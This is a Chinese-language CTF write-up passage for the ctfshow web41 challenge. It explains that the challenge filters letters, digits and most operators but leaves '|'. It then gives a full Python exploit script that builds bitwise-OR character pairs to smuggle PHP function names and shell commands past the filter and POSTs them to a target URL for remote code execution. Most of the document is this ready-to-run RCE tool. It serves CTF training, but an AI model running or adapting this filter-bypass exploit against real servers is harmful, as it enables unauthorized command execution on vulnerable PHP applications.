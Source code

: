 这个题过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符|。

题解：https://wp.ctf.show/d/137-ctfshow-web-web41

脚本：

```bash
import re
import requests
import urllib
from sys import *
import os
content = ''
preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/'
for i in range(256):
    for j in range(256):
        if not (re.match(preg,chr(i),re.I) or re.match(preg,chr(j),re.I)):
            k = i | j
            if k>=32 and k<=126:
                a = '%' + hex(i)[2:].zfill(2)
                b = '%' + hex(j)[2:].zfill(2)
                content += (chr(k) + ' '+ a + ' ' + b + '\n')
f = open('rce_or.txt', 'w')
f.write(content)
if (len(argv) != 2):
    print("=" * 50)
    print('USER：python exp.py <url>')
    print("eg：  python exp.py http://ctf.show/")
    print("=" * 50)
    exit(0)
url = argv[1]


def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("rce_or.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                # print(i)
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"|\"" + s2 + "\")"
    return (output)


while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command："))
    data = {
        'c': urllib.parse.unquote(param)
    }
    r = requests.post(url, data=data)
    print("\n[*] result:\n" + r.text)
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152
```
